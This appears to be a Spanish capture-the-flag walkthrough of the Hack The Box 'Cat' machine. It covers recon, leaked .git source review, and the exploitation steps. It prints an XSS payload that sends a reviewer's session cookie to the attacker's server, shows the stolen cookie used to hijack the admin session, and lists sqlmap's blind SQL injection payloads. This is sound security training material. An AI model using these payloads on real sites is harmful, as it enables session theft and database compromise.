


# Copy of Copy of Cat

<figure><figcaption></figcaption></figure>

***

## Reconnaissance

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina **`Cat`**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -Pn -n 10.10.11.53 -oG allPorts
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-02 23:39 CET
Nmap scan report for 10.10.11.53
Host is up (0.060s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 15.32 seconds
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.53
	[*] Open ports: 22,80

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX para posteriormente trabajar con ellos. En el resultado, comprobamos que se encuentran abierta una página web de `Apache` y el servicio de `SSH`.

```bash
❯ nmap -sCV -p22,80 10.10.11.53 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-02 23:42 CET
Nmap scan report for cat.htb (10.10.11.53)
Host is up (0.072s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 96:2d:f5:c6:f6:9f:59:60:e5:65:85:ab:49:e4:76:14 (RSA)
|   256 9e:c4:a4:40:e9:da:cc:62:d1:d6:5a:2f:9e:7b:d4:aa (ECDSA)
|_  256 6e:22:2a:6a:6d:eb:de:19:b7:16:97:c2:7e:89:29:d5 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-git: 
|   10.10.11.53:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Cat v1 
|_http-title: Best Cat Competition
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   64.13 ms 10.10.16.1
2   95.83 ms cat.htb (10.10.11.53)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.18 seconds
```

Transformaremos el archivo generado `targetedXML` para transformar el XML en un archivo HTML para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

Añadiremos la siguiente entrada en nuestro archivo `/etc/hosts`.

```bash
❯ cat /etc/hosts | grep 10.10.11.53
10.10.11.53 cat.htb
```

## Web Enumeration

Accederemos a [http://cat.htb](http://cat.htb) y verificaremos el contenido del sitio web. Entre la información que podemos recopilar comprobamos diferentes páginas dentro del menú principal del sitio web.

<figure><figcaption></figcaption></figure>

Al acceder a la sección de `vote.php` verificamos que se trata de una página web en `PHP` de un concurso de gatos, en el cual nos permitían votar. En este caso, se nos indica que el proceso de votación se encuentra actualmente cerrado, por lo cual no podríamos interactuar con estas opciones.

<figure><figcaption></figcaption></figure>

Al acceder a la página de `winners.php`, verificamos una página web en donde muestran quién ha sido el ganador del concurso. No logramos obtener más información en esta sección.

<figure><figcaption></figcaption></figure>

Verificamos también una página de `join.php` en la cual nos permite registrarnos como usuarios.

<figure><figcaption></figcaption></figure>

Trataremos de registrarnos con un usuario de prueba para verificar si al acceder, nos proporcionan más acceso a otras secciones o si podemos realizar alguna acción con este usuario.

<figure><figcaption></figcaption></figure>

Verificamos que nos aparece que el registro se ha realizado correctamente. El siguiente paso será iniciar sesión con el usuario recién creado para verificar si tenemos acceso.

<figure><figcaption></figcaption></figure>


Comprobamos que disponemos de acceso a una página llamada `contest.php` en la cual podemos enviar un formulario con datos para el concurso. Interceptaremos esta solicitud con datos aleatorios y una imagen válida para verificar cómo se envía la solicitud.

<figure><figcaption></figcaption></figure>

### Attempting to upload a malicious PHP file

Al enviar la solicitud anterior a través de `BurpSuite`, verificamos que se envía correctamente el formulario. En la respuesta por parte del servidor, nos muestra un mensaje indicando `Cat has ben successfully sent for inspection`. Lo cual nos sugiere que alguien por detrás quizás esté inspeccionando estos datos.

<figure><figcaption></figcaption></figure>

Probaremos de modificar la extensión del archivo que enviamos a `PHP` que es el lenguaje que utiliza la página web, al enviar el formulario, se nos indica que solamente está permitido archivos con extensión `JPG`, `JPEG` y `PNG`.

<figure><figcaption></figcaption></figure>

También probamos de inyectar código `JavaScript`, en este caso, la aplicación por detrás, sanitiza y bloquea estos caracteres y nos muestra en la respuesta por parte del servidor de que los caracteres introducidos son inválidos.

<figure><figcaption></figcaption></figure>

### Downloading Git Folder disclosure (GitHack)

Realizaremos una enumeración de directorios y páginas web a través de `dirsearch`. En el resultado obtenido, verificamos la existencia de un directorio `/.git/`.

```bash
❯ dirsearch -u 'http://cat.htb' -i 200 -t 50 2>/dev/null

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist size: 11460

Output File: /home/kali/Desktop/HackTheBox/Linux/Cat/Cat/content/reports/http_cat.htb/_25-02-02_23-55-14.txt

Target: http://cat.htb/

[23:55:14] Starting: 
[23:55:19] 200 -   92B  - /.git/config
[23:55:19] 200 -   73B  - /.git/description
[23:55:19] 200 -    7B  - /.git/COMMIT_EDITMSG
[23:55:20] 200 -   23B  - /.git/HEAD
[23:55:20] 200 -    2KB - /.git/index
[23:55:20] 200 -  240B  - /.git/info/exclude
[23:55:20] 200 -  150B  - /.git/logs/refs/heads/master
[23:55:20] 200 -  150B  - /.git/logs/HEAD
[23:55:20] 200 -   41B  - /.git/refs/heads/master
```

A través de la herramienta de `GitHack`, nos descargaremos el repositorio de `Git` en nuestro equipo.

```bash
❯ python3 /opt/GitHack/GitHack.py http://cat.htb/.git/ 2>/dev/null 
```

Verificaremos la estructura de la carpeta que se nos ha descargado. Comprobamos la existencia de diversos archivos PHP que parecen ser relacionados con las páginas existentes en la página web.

```bash
❯ tree
.
├── accept_cat.php
├── admin.php
├── config.php
├── contest.php
├── css
│   └── styles.css
├── delete_cat.php
├── img
│   ├── cat1.jpg
│   ├── cat2.png
│   └── cat3.webp
├── img_winners
│   ├── cat1.jpg
│   ├── cat2.png
│   └── cat3.webp
├── index.php
├── join.php
├── logout.php
├── view_cat.php
├── vote.php
├── winners
│   └── cat_report_20240831_173129.php
└── winners.php

5 directories, 19 files
```

Encontramos el archivo `contest.php`, encargado de procesar las inscripciones al concurso de gatos. Permite a usuarios autenticados enviar nombre, edad, fecha de nacimiento, peso y una imagen, almacenando los datos en la base de datos y guardando la imagen en `uploads/`.

Intentamos bypassear la restricción de subida de archivos, logrando finalmente subir un archivo PHP malicioso. Sin embargo, no pudimos ejecutar el código porque el archivo se renombraba con `uniqid()`, lo que impedía determinar su ruta exacta dentro de `uploads/`.


```php
<?php
session_start();

include 'config.php';

// Message variables
$success_message = "";
$error_message = "";

// Check if the user is logged in
if (!isset($_SESSION['username'])) {
    header("Location: /join.php");
    exit();
}

// Function to check for forbidden content
function contains_forbidden_content($input, $pattern) {
    return preg_match($pattern, $input);
}

// Check if the form has been submitted
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    // Capture form data
    $cat_name = $_POST['cat_name'];
    $age = $_POST['age'];
    $birthdate = $_POST['birthdate'];
    $weight = $_POST['weight'];

    $forbidden_patterns = "/[+*{}',;<>()\\[\\]\\/\\:]/";

    // Check for forbidden content
    if (contains_forbidden_content($cat_name, $forbidden_patterns) ||
        contains_forbidden_content($age, $forbidden_patterns) ||
        contains_forbidden_content($birthdate, $forbidden_patterns) ||
        contains_forbidden_content($weight, $forbidden_patterns)) {
        $error_message = "Your entry contains invalid characters.";
    } else {
        // Generate unique identifier for the image
        $imageIdentifier = uniqid() . "_";

        // Upload cat photo
        $target_dir = "uploads/";
        $target_file = $target_dir . $imageIdentifier . basename($_FILES["cat_photo"]["name"]);
        $uploadOk = 1;
        $imageFileType = strtolower(pathinfo($target_file, PATHINFO_EXTENSION));

        // Check if the file is an actual image or a fake file
        $check = getimagesize($_FILES["cat_photo"]["tmp_name"]);
        if($check !== false) {
            $uploadOk = 1;
        } else {
            $error_message = "Error: The file is not an image.";
            $uploadOk = 0;
        }

        // Check if the file already exists
        if (file_exists($target_file)) {
            $error_message = "Error: The file already exists.";
            $uploadOk = 0;
        }

        // Check file size
        if ($_FILES["cat_photo"]["size"] > 500000) {
            $error_message = "Error: The file is too large.";
            $uploadOk = 0;
        }

        // Allow only certain file formats
        if($imageFileType != "jpg" && $imageFileType != "png" && $imageFileType != "jpeg") {
            $error_message = "Error: Only JPG, JPEG, and PNG files are allowed.";
            $uploadOk = 0;
        }

        // Check if $uploadOk is set to 0 by an error
        if ($uploadOk == 0) {
        } else {
            if (move_uploaded_file($_FILES["cat_photo"]["tmp_name"], $target_file)) {
                // Prepare SQL query to insert cat data
                $stmt = $pdo->prepare("INSERT INTO cats (cat_name, age, birthdate, weight, photo_path, owner_username) VALUES (:cat_name, :age, :birthdate, :weight, :photo_path, :owner_username)");
                // Bind parameters
                $stmt->bindParam(':cat_name', $cat_name, PDO::PARAM_STR);
                $stmt->bindParam(':age', $age, PDO::PARAM_INT);
                $stmt->bindParam(':birthdate', $birthdate, PDO::PARAM_STR);
                $stmt->bindParam(':weight', $weight, PDO::PARAM_STR);
                $stmt->bindParam(':photo_path', $target_file, PDO::PARAM_STR);
                $stmt->bindParam(':owner_username', $_SESSION['username'], PDO::PARAM_STR);
                // Execute query
                if ($stmt->execute()) {
                    $success_message = "Cat has been successfully sent for inspection.";
                } else {
                    $error_message = "Error: There was a problem registering the cat.";
                }
            } else {
                $error_message = "Error: There was a problem uploading the file.";
            }
        }
    }
}
?>
```


Encontramos el archivo `admin.php`, el cual parece ser un panel de administración para gestionar las inscripciones de gatos. Solo permite el acceso al usuario `axel`, redirigiendo a `join.php` si no se cumple esta condición.

Este script recupera todos los registros de la tabla `cats` y los almacena en la variable `$cats` para su posterior visualización.

#### **Posibles vulnerabilidades**

1. **Falta de roles o privilegios adecuados**
   * Restringe el acceso solo por el nombre de usuario, sin comprobar permisos reales.
   * Si logramos secuestrar la sesión (`session hijacking`), podríamos acceder sin necesidad de credenciales válidas.
2. **Exposición de datos**
   * Si este archivo no tiene controles adicionales en su frontend, podría filtrar información sensible sobre los gatos registrados y sus dueños.

En este caso, sería interesante revisar si podemos secuestrar la sesión de `axel` o encontrar otro punto de entrada para acceder al contenido de `admin.php`.


```php
<?php
session_start();

include 'config.php';

// Check if the user is logged in
if (!isset($_SESSION['username']) || $_SESSION['username'] !== 'axel') {
    header("Location: /join.php");
    exit();
}

// Fetch cat data from the database
$stmt = $pdo->prepare("SELECT * FROM cats");
$stmt->execute();
$cats = $stmt->fetchAll(PDO::FETCH_ASSOC);
?>
```


Encontramos el archivo `config.php`, que maneja la conexión a la base de datos SQLite usando el archivo `/databases/cat.db`. Este script utiliza `PDO` para gestionar la conexión y está configurado para lanzar excepciones en caso de error. Es incluido en otros archivos para permitir el acceso a la base de datos.


```php
<?php
// Database configuration
$db_file = '/databases/cat.db';

// Connect to the database
try {
    $pdo = new PDO("sqlite:$db_file");
    $pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
} catch (PDOException $e) {
    die("Error: " . $e->getMessage());
}
?>
```


En nuestra revisión del sistema, encontramos el archivo `join.php`, que gestiona el proceso de registro e inicio de sesión de los usuarios. Al analizarlo, identificamos varias vulnerabilidades críticas que podrían comprometer la seguridad de la aplicación.

#### **Vulnerabilidades encontradas:**

1. **Falta de validación de entradas (XSS)**

* En este archivo, las entradas de usuario como `username`, `email`, y `password` no son validadas ni saneadas adecuadamente. Esto permite que un atacante inyecte scripts maliciosos en estos campos, lo que podría dar lugar a un **ataque XSS** (Cross-Site Scripting). Si un atacante puede manipular los valores de estos campos, podría robar información sensible de otros usuarios o ejecutar código malicioso en su navegador.

2. **Exposición de credenciales a través de URL (GET)**

* Los datos sensibles como username, email, y password se envían a través de la URL usando el método GET. Esto es muy riesgoso, ya que los parámetros enviados por GET quedan registrados en los logs del servidor, en el historial del navegador y en la caché. Un atacante podría acceder a estos datos si tienen acceso a alguno de estos registros, exponiendo las credenciales de los usuarios.

3. **Cifrado débil de contraseñas (`md5`)**

* El archivo utiliza `md5()` para cifrar las contraseñas antes de almacenarlas. Este algoritmo es obsoleto y vulnerable a ataques de colisión y de fuerza bruta. Un atacante podría descifrar fácilmente las contraseñas almacenadas en la base de datos.


```php
<?php
session_start();

include 'config.php';

$success_message = "";
$error_message = "";

// Registration process
if ($_SERVER["REQUEST_METHOD"] == "GET" && isset($_GET['registerForm'])) {
    $username = $_GET['username'];
    $email = $_GET['email'];
    $password = md5($_GET['password']);

    $stmt_check = $pdo->prepare("SELECT * FROM users WHERE username = :username OR email = :email");
    $stmt_check->execute([':username' => $username, ':email' => $email]);
    $existing_user = $stmt_check->fetch(PDO::FETCH_ASSOC);

    if ($existing_user) {
        $error_message = "Error: Username or email already exists.";
    } else {
        $stmt_insert = $pdo->prepare("INSERT INTO users (username, email, password) VALUES (:username, :email, :password)");
        $stmt_insert->execute([':username' => $username, ':email' => $email, ':password' => $password]);

        if ($stmt_insert) {
            $success_message = "Registration successful!";
        } else {
            $error_message = "Error: Unable to register user.";
        }
    }
}

// Login process
if ($_SERVER["REQUEST_METHOD"] == "GET" && isset($_GET['loginForm'])) {
    $username = $_GET['loginUsername'];
    $password = md5($_GET['loginPassword']);

    $stmt = $pdo->prepare("SELECT * FROM users WHERE username = :username");
    $stmt->execute([':username' => $username]);
    $user = $stmt->fetch(PDO::FETCH_ASSOC);

    if ($user && $password === $user['password']) {
        $_SESSION['username'] = $user['username'];
        header("Location: /");
        exit();
    } else {
        $error_message = "Incorrect username or password.";
    }
}
?>
```


## Initial Foothold

Hasta ahora, hemos recopilado información clave sobre el sistema. Hemos observado que al registrarse, no se realiza una correcta sanitización de los datos de entrada, lo que podría derivar en ataques de **XSS** (Cross-Site Scripting). Esto abre la puerta a posibles ataques como el **robo de cookies** o la ejecución de código malicioso en el navegador de otro usuario.

Además, al enviar el formulario, se presenta un mensaje que nos hace sospechar que alguien podría estar revisando las entradas del formulario. Esto, sumado a la información obtenida de los archivos de configuración, revela que existe una sección accesible únicamente para el usuario **axel**. Esto nos da una pista valiosa sobre el flujo de la aplicación y el manejo de usuarios.

Con esta información en mente, el siguiente paso será intentar determinar si la opción **HttpOnly** está configurada como `false` en las cookies. Si este es el caso, podríamos intentar realizar un **cookie hijacking** de la cookie del usuario **axel**, ya que parece ser la persona que revisa el formulario. De ser así, podríamos capturar su sesión y obtener acceso a su cuenta.

Nuestro objetivo será inyectar código JavaScript malicioso en el campo `username` del formulario. De este modo, cuando un usuario, posiblemente **axel**, vea nuestro formulario, el código inyectado se ejecutará en su navegador. Si la cookie no está marcada como **HttpOnly**, podremos interceptarla y enviarla a un servidor externo, permitiéndonos robar la sesión del usuario.

Este sería el siguiente paso en nuestra explotación del sistema.

### Performing Cookie Hijacking

Verificaremos si el atributo de `HttpOnly` se encuentra en `False`. Comprobamos que el sitio web dispone de esta mala configuración, lo cual la hace susceptible al `Cookie Hijacking` (robo de cookies de sesión).

<figure><figcaption></figcaption></figure>

El siguiente objetivo será inyectar un payload malicioso en `JavaScript`para robar la cookie de sesión del usuario. Nos registraremos con el siguiente script que enviará la cookie a nuestro servidor web de atacante que abriremos más adelante.

```javascript
<script>fetch("http://10.10.16.5/?value=" + document.cookie);</script> 
```

<figure><figcaption></figcaption></figure>

Comprobamos que se ha registrado correctamente el usuario, no hemos tenido problemas debido a la configuración de la página web que no sanitizaba correctamente estos campos, accederemos con el usuario recién creado.

<figure><figcaption></figcaption></figure>

Por un lado, no levantaremos un servidor web en nuestro equipo por el puerto 80.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Enviaremos nuevamente un formulario con datos aleatorios.

<figure><figcaption></figcaption></figure>

Se enviará correctamente el formulario, el siguiente paso será verificar en nuestro servidor web si logramos obtener la cookie de sesión del usuario que esté revisando nuestro formulario (en caso de que lo hubiera).

<figure><figcaption></figcaption></figure>

Al esperar un tiempo, verificamos que al parecer sí había un usuario revisando nuestro formulario. Esto fue posible debido que en el `username` inyectamos el payload **XSS** para el `Cookie Hijacking` porque no estaba sanitizando correctamente y el sitio web tenia el `HttpOnly` en `False`.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.53 - - [05/Feb/2025 01:31:56] "GET /?value=PHPSESSID=ojvduvoofuju8avf7cijqorq6g HTTP/1.1" 200 -
```

Modificamos nuestra cookie de sesión actual y la cambiaremos por la recién robada.

<figure><figcaption></figcaption></figure>

### Executing SQL Injection Blind

Obtenemos una nueva pestaña `admin.php` en la cual nos aparecen los formularios que han sido enviados. Nos ofrecen 3 opciones, visualizar el formulario, aceptarlo y rechazarlo.

Si bien recordamos, esta página de `admin.php` la habíamos enumerado anteriormente en el `/.git/`que encontramos. Esta página solamente tenía acceso el usuario `axel`, lo cual nos confirma que dado que disponemos del acceso a esta página, la cookie de sesión pertenece a dicho usuario.

<figure><figcaption></figcaption></figure>

En los archivos que encontramos dentro de `/.git/`, nos encontramos con el archivo **"view\_cat.php"**, que parece ser la opción para visualizar un formulario con la información de un gato registrado.

Este archivo está configurado de tal manera que solo el usuario **axel** puede acceder a él. Una vez autenticado, el script obtiene el parámetro `cat_id` desde la URL y lo usa en una consulta SQL para recuperar los datos del gato y su dueño desde la base de datos.


```php
<?php
session_start();

include 'config.php';

// Check if the user is logged in
if (!isset($_SESSION['username']) || $_SESSION['username'] !== 'axel') {
    header("Location: /join.php");
    exit();
}

// Get the cat_id from the URL
$cat_id = isset($_GET['cat_id']) ? $_GET['cat_id'] : null;

if ($cat_id) {
    // Prepare and execute the query
    $query = "SELECT cats.*, users.username FROM cats JOIN users ON cats.owner_username = users.username WHERE cat_id = :cat_id";
    $statement = $pdo->prepare($query);
    $statement->bindParam(':cat_id', $cat_id, PDO::PARAM_INT);
    $statement->execute();

    // Fetch cat data from the database
    $cat = $statement->fetch(PDO::FETCH_ASSOC);

    if (!$cat) {
        die("Cat not found.");
    }
} else {
    die("Invalid cat ID.");
}
?>

```


En los archivos que encontramos dentro de `/.git/`, hallamos el archivo **"accept\_cat.php"**, que parece ser el encargado de aceptar gatos en el sistema.

Este archivo está configurado de tal manera que solo el usuario **axel** puede acceder a él. Si se envía una solicitud **POST** con un `catId` y un `catName`, el script inserta el nombre del gato en la tabla `accepted_cats` y luego elimina el registro correspondiente de la tabla `cats`.

#### **Posibles vulnerabilidades encontradas**

* **Inyección SQL (SQLi):** La consulta `INSERT INTO accepted_cats (name) VALUES ('$cat_name')` no usa sentencias preparadas, lo que permite inyectar SQL a través del `catName`. Esto podría llevar a la ejecución de comandos arbitrarios en la base de datos.
* **Falta de validación y sanitización:** No hay ningún control sobre los valores recibidos en `catId` y `catName`, lo que podría permitir **XSS almacenado** si los datos son reflejados en otra parte del sistema.


```php
<?php
include 'config.php';
session_start();

if (isset($_SESSION['username']) && $_SESSION['username'] === 'axel') {
    if ($_SERVER["REQUEST_METHOD"] == "POST") {
        if (isset($_POST['catId']) && isset($_POST['catName'])) {
            $cat_name = $_POST['catName'];
            $catId = $_POST['catId'];
            $sql_insert = "INSERT INTO accepted_cats (name) VALUES ('$cat_name')";
            $pdo->exec($sql_insert);

            $stmt_delete = $pdo->prepare("DELETE FROM cats WHERE cat_id = :cat_id");
            $stmt_delete->bindParam(':cat_id', $catId, PDO::PARAM_INT);
            $stmt_delete->execute();

            echo "The cat has been accepted and added successfully.";
        } else {
            echo "Error: Cat ID or Cat Name not provided.";
        }
    } else {
        header("Location: /");
        exit();
    }
} else {
    echo "Access denied.";
}
?>
```


En los archivos que recuperamos de `/.git/`, encontramos **"delete\_cat.php"**, un script encargado de eliminar registros de gatos del sistema.

#### **Funcionamiento del archivo**

* Solo el usuario **axel** puede acceder a esta funcionalidad.
* Si se recibe una solicitud **POST** con un `catId`, se busca la foto asociada en la base de datos.
* Si el registro existe, se elimina tanto de la base de datos como del sistema de archivos mediante `unlink()`.

#### **Posibles vulnerabilidades**

* **Falta de validación en `catId`:** Aunque el parámetro es tratado como un número entero (`PDO::PARAM_INT`), no hay validaciones adicionales para evitar el envío de datos manipulados.
* **Posible Insecure Direct Object References (IDOR):** Si conseguimos acceso a una cuenta con permisos suficientes, podríamos eliminar gatos sin restricciones.
* **Falta de control en `unlink()`:** Si `photo_path` contiene una ruta manipulada, podría eliminar archivos fuera del directorio esperado (Path Traversal).


```php
<?php
include 'config.php';
session_start();

if (isset($_SESSION['username']) && $_SESSION['username'] == 'axel'){
 if ($_SERVER["REQUEST_METHOD"] == "POST") {
    if (isset($_POST['catId'])) {
        $catId = $_POST['catId'];

        $stmt_select = $pdo->prepare("SELECT photo_path FROM cats WHERE cat_id = :cat_id");
        $stmt_select->bindParam(':cat_id', $catId, PDO::PARAM_INT);
        $stmt_select->execute();
        $cat = $stmt_select->fetch(PDO::FETCH_ASSOC);

        if ($cat) {
            $photo_path = $cat['photo_path'];

            $stmt_delete = $pdo->prepare("DELETE FROM cats WHERE cat_id = :cat_id");
            $stmt_delete->bindParam(':cat_id', $catId, PDO::PARAM_INT);
            $stmt_delete->execute();

            if (file_exists($photo_path)) {
                unlink($photo_path);
            }

            echo "The cat has been rejected and removed successfully.";
        } else {
            echo "Error: Cat not found.";
        }
    } else {
        echo "Error: Cat ID not provided.";
    }
 } else {
    header("Location: /");
    exit();
 }
 } else {
    echo "Access denied.";
 }
?>
```


Por lo tanto, teniendo en cuenta la configuración de las opciones de la página web, el siguiente objetivo será intentar realizar inyecciones SQLi para obtener los datos de la BBDD.

Para ello, intereceptaremos con `BurpSuite` la solicitud al darle a la opción de `Accept` que en un principio según revisamos en el código parecía vulnerable a inyecciones SQL.

Haremos click derecho y nos copiaremos la solicitud en un archivo.

<figure><figcaption></figcaption></figure>

Verificaremos que disponemos de un archivo llamado `request` el cual contiene la petición interceptada con `BurpSuite`.

```bash
❯ cat request
POST /accept_cat.php HTTP/1.1
Host: cat.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Origin: http://cat.htb
Connection: keep-alive
Referer: http://cat.htb/admin.php
Cookie: PHPSESSID=ojvduvoofuju8avf7cijqorq6g 
Sec-GPC: 1
Priority: u=0

catName=GzzcooCat&catId=1
```

Después de un breve tiempo, hicimos diversas pruebas de inyecciones SQL con `SQLMap`. Finalmente el último comando utilizado fue el siguinte. Utilizamos esta herramienta dado que las inyecciones eran `SQLI Blind` y deberíamos hacer fuerza bruta carácter por carácter para averiguar los resultados de la base de datos.

En este caso, la herramienta lo realiza por nosotros, en el resultado obtenido, comprobamos diversos nombres de tablas de la base de datos.

```bash
❯ sqlmap -r request -p catName --dbms sqlite --level 5 --risk 3 --technique=BEST --tables
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.9#stable}
|_ -| . [)]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 02:32:39 /2025-02-05/

[02:32:39] [INFO] parsing HTTP request from 'request'
[02:32:39] [INFO] testing connection to the target URL
[02:32:39] [INFO] testing if the target URL content is stable
[02:32:40] [INFO] target URL content is stable
[02:32:40] [WARNING] heuristic (basic) test shows that POST parameter 'catName' might not be injectable
[02:32:40] [INFO] testing for SQL injection on POST parameter 'catName'
[02:32:40] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[02:32:48] [INFO] POST parameter 'catName' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --code=200)
[02:32:48] [INFO] testing 'SQLite > 2.0 stacked queries (heavy query - comment)'
[02:32:48] [INFO] testing 'SQLite > 2.0 stacked queries (heavy query)'
[02:32:48] [INFO] testing 'SQLite > 2.0 AND time-based blind (heavy query)'
[02:32:56] [INFO] POST parameter 'catName' appears to be 'SQLite > 2.0 AND time-based blind (heavy query)' injectable 
[02:32:56] [INFO] checking if the injection point on POST parameter 'catName' is a false positive
POST parameter 'catName' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 82 HTTP(s) requests:
---
Parameter: catName (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: catName=GzzcooCat'||(SELECT CHAR(122,97,113,98) WHERE 6534=6534 AND 9558=9558)||'&catId=1

    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: catName=GzzcooCat'||(SELECT CHAR(104,76,97,65) WHERE 6505=6505 AND 6068=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2)))))||'&catId=1
---
[02:33:07] [INFO] the back-end DBMS is SQLite
web server operating system: Linux Ubuntu 20.10 or 19.10 or 20.04 (focal or eoan)
web application technology: Apache 2.4.41
back-end DBMS: SQLite
